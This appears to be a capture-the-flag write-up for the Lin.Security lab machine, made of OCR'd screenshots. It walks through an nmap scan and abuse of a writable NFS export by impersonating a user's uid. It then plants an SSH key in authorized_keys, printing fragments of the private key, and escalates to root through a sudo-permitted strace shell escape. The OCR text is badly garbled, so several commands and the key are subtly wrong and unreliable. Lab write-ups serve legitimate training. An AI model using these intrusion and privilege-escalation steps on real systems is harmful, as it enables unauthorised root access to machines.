 # Lin.Security
06 April 2022
06:20 PM

<img src="Lin.Security/media/image1.png" style="width:6.225in;height:5.04167in" alt="PORT 22/tcp VERSION openSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0) I ssh-hostkey: 2048 (RSA) 256 (ECDSA) 256 (ED25519) Ill/tcp open rpcbind 2-4 (wc #løoøøø) STATE SERVICE open ssh rpcinfo: program løøøøo løøøøø løøøøo løøøøø 100003 100003 100003 100003 1øøøø5 100005 100005 1øøøø5 100021 100021 100021 100021 100227 100227 100227 100227 version 2, 3 3 1,2,3 1,2,3 1,2,3 1,2,3 1, 1, 1, 3 3 3 3 port/proto Ill/tcp Ill/udp 111/tcp6 111/udp6 2049/udp 2049/udp6 2049/tcp 2049/tcp6 44843/tcp 52491/udp 54367/tcp6 56544/udp6 40101/udp 41235/tcp 44345/tcp6 58068/udp6 2049/tcp 2049/tcp6 2049/udp 2049/udp6 service rpcbind rpcbind rpcbind rpcbind nfs nfs nfs nfs mountd mountd mountd mountd n lockmgr nlockmgr nlockmgr nlockmgr nfs act nfs act nfs act nfs act 2049/tcp open nfs act 3 (RPC #100227) " />

<img src="Lin.Security/media/image2.png" style="width:6.33333in;height:1.85in" alt="2049/tcp 39021/tcp 41235/tcp 44843/tcp 56873/tcp open open open open open nfs act rpcbind nlockmgr mountd rpcbind Service Info: OS: Linux; (RPC #100227) 3 1-4 (RPC #100021) 1-3 (RPC #100005) CPE: cpe:/o:linux:linux_kernel NSE : Scri t Post-scanning. " />

<img src="Lin.Security/media/image3.png" style="width:6.3in;height:2.73333in" />

<img src="Lin.Security/media/image4.png" style="width:6.13333in;height:2.29167in" />

<img src="Lin.Security/media/image5.png" style="width:6.575in;height:2.66667in" alt="total 32 drwxr-xr-x 5 drwxr -rw-r r- -rw-r--r drwx (roote /home/kal i/Desktop/ctf/peter -xr-x 16 -rw-rw-r-- drwx drwxrwxr-x -rw-r--r-- 1 1 2 1 3 3 1 1001 kali 1001 1001 1001 1001 1001 1001 1001 1005 kali 1005 1005 1005 1005 1005 1005 1005 4096 4096 220 3771 4096 4096 4096 807 Jul Apr Jul Jul Jul Jul Jul Jul Jul 10 6 9 9 10 10 10 10 9 2018 09:17 2018 2018 2018 2018 2018 2018 2018 .bash_logout . bashrc . cache . cloud-locale-test. skip . gnupg . local . profile " />

<img src="Lin.Security/media/image6.png" style="width:6.54167in;height:4.5in" alt="/home/kaIi/Desktop/ctf/peter Cg groupadd --gid 1005 peter /home/ka1i/Desktop/ctf/peter n useradd -u 1001 1005 peter -g /home/kal i/Desktop/ctf/peter 1—&#39;1 cat /etc/passwd I grep peter /home/o :/bin/sh /home/kal i/Desktop/ctf/peter Lo su peter $ Is -la total 32 drwxr drwxr-xr-x 16 -rw-r--r -rw-r--r-- drwx -rw-rw-r-- drwx drwxrwxr -x -rw-r r -- 1 1 2 1 3 3 1 peter kali peter peter peter peter peter peter peter peter kali peter peter peter peter peter peter peter 4096 4096 220 3771 4096 4096 4096 807 Jul Apr Jul Jul Jul Jul Jul jul 10 6 9 9 10 10 10 10 9 2018 . 09&#39;.17 . . bash_logout 2018 . bashrc 2018 . cache 2018 . cloud-locale-test . skip 2018 2018 . gnupg . local 2018 . profile 2018 " />

<img src="Lin.Security/media/image7.png" style="width:6.575in;height:4.425in" alt="$ mkdir . ssh $ cd .ssh $ pwd /home/kali/Desktop/ct f/peter/. ssh $ ssh-keygen -t rsa -b 4096 -C &#39;drtöhtb&#39; -f internals. pub -P Generating public/private rsa key pair. Your identification has been saved in internals. pub Your public key has been saved in internals.pub.pub The key fingerprint is: SHA256:/b7Bwe+j70q3TXjbgvq1X9EkøKNM8sB2Xwf3rUf3ch1 drtahtb The key&#39;s randomart image is: = 0.0 0+1 +— [SHA256] cat internals. pub.pub I tee authorized_keys 88 chmod 600 authorized_keys " />

<img src="Lin.Security/media/image8.png" style="width:6.46667in;height:2.70833in" alt="$ cat internals. pub. pub I tee authorized_keys 88 chmod 600 authorized _ keys ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQC5qhhtD3drPekR6WNHt972+/sVVP1cn1j1R/p1rQwqAhtY+1S4Y540XXMHNW DITSVRFZ+tyuDEdCUBCFWY501AoptOi6ThCPjKhT/kJKqhdZJnF9U9kYbJ5kJcczwvedaØgiNr4x4wzweNTAu37kUTqXQLlC3e4 ccWKGmFrEefqPDjhjgiuuocsBwH9BYjy4cd+izuH2eGms6XV3DHjYOWQadD361yrwQ1qsccwmorZ6GW8v1sUTksFkpiz3si081 PHxiq8ØZTywyItmc/KUV Em9j RR+t3vi40H JbT8JHZAFEbyAi081 RwohvrucnlJAWKMj BQ65Xcyj hw5Bukt IYØ3StzPZsnTtBL8M Ga4QybODKRn/1MHZLn6Aeb4vuQdug1TMCQOWX05S1edØ612VGFeTJji6niNIUXBl&lt;u3Uyxq3YGHLuwrFsjDxdwon3zxsosrtA11J 09:35 09 : 32 drtöhtb $ Is -la total 20 drwxr-xr-x 2 peter peter drwxr-xr-x 6 peter peter -rw -rw 1 peter peter 1 peter peter 4096 Apr 4096 Apr 733 Apr 3369 Apr 733 Apr 6 6 6 6 6 1 peter peter -rw-r -- r -- $ cat internals. pub 09 : 35 authorized _ keys 09:35 internals.pub 09 : 35 internals. pub. pub BEGIN OPENSSH PRIVATE KEY b3B1bnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAACFwAAAAdzc2gtcn NhAAAAAwEAAQAAAgEAua0YbQ93aZ3PEe1jR7fe9VV7FVT9XJ5YYEf6SKØMKg1bCVPUuGOe D11ZBzvnP7/ctrmWPSZ3H4h8ZRAFLbT12PYMAbUKLlYCSJm1K18P1avg9UørøRWfPWLgxHQ " />

<img src="Lin.Security/media/image9.png" style="width:6.30833in;height:1.275in" alt="ni cRbW9Tpffv9j sPi/yBR7e7Kz96VoOhBQmMCzD5x6QQ5UFq+Iw5b4arIJaXTnef1 f LndL t z psniWRrAZQMNIXNi0Hxsdbpm6h3WR131 F L lwzdwrR+rSVB9GaLED1gRZNXGMt/01gxpØ +d43AbuCciWaC4Q3tPquPqa4WDMWsG1mbr/GUgLF+Lu2Js/7fQzGdØgAHu97R3ØN8dtBvk L6810Q+6+iCAAAAHZHJØQGhØYgECAWQ= END OPENSSH PRIVATE KEY $ exit " />

<img src="Lin.Security/media/image10.png" style="width:4.04167in;height:0.78333in" alt="(kaliS kali —/Desktop/ctf $ nano internals.pub " />

<img src="Lin.Security/media/image11.png" style="width:6.175in;height:2.34167in" />

<img src="Lin.Security/media/image12.png" style="width:5.90833in;height:1.95in" alt="sudo -l Matching Defaults entries for peter on I insecurity: env_reset, mail_badpass, User peter may run the following commands on linsecuri (ALL) NOPASSWD: /usr/bin/strace peteratinsecurity : -$ " />

<img src="Lin.Security/media/image13.png" style="width:7.20833in;height:1.525in" alt="Sudo If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access. sudo &#39;trace -o /dev/nuU /bin/5h " />

<img src="Lin.Security/media/image14.png" style="width:5.83333in;height:0.64167in" alt="peterNinsecurity:-$ sudo /usr/bin/strace -o /dev/null /bin/sh # id " />

<img src="Lin.Security/media/image15.png" style="width:1.36667in;height:0.54167in" alt="whoami root " />
